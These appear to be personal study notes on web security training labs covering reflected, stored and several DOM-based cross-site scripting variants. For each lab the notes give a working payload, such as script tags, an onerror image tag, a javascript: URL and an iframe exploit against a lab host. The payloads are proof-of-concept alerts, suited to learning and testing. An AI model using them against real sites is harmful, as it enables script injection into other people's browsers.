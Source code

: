 ____

# Reflected XSS into HTML

The value of the **search** request parameter is copied into the HTML document as plain text between tags. 
```js
<script>alert(1)</script> 
```
This input was echoed unmodified in the application's response.


# Stored XSS into HTML 

In the comment section,
```js
<script>alert(1)</script> 
```

# DOM XSS in `document.write` sink using source `location.search`

![[Pasted image 20240803072009.png]]

```html
"><script>alert(1)</script>
```

![[Pasted image 20240803072133.png]]

# DOM XSS in `innerHTML` sink using source `location.search`

Data is read from **location.search** and passed to **element.innerHTML**.

```js
<img src onerror=alert(1)>
```


# DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

The application may be vulnerable to DOM-based link manipulation. Data is read from **location.search** and passed to **jQuery.attr.href**.

```js
javascript:alert(1)
```

![[Pasted image 20240803074347.png]]

# DOM XSS in jQuery selector sink using a hashchange event

```js
#<img src onerror=alert(1)>
```

```html
<iframe src="https://0a7700c6030ec6b582e3533b006c00b1.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```


